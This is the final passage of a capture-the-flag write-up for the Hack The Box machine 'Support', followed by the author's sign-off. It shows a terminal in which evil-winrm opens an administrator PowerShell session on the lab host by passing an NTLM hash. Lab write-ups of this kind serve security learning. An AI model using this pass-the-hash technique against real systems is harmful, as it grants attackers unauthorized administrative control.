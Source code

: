 ```terminal
[★]$ evil-winrm -i support.htb -u administrator -H 'bb06cbc02b39abeddd1335bc30b19e26'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
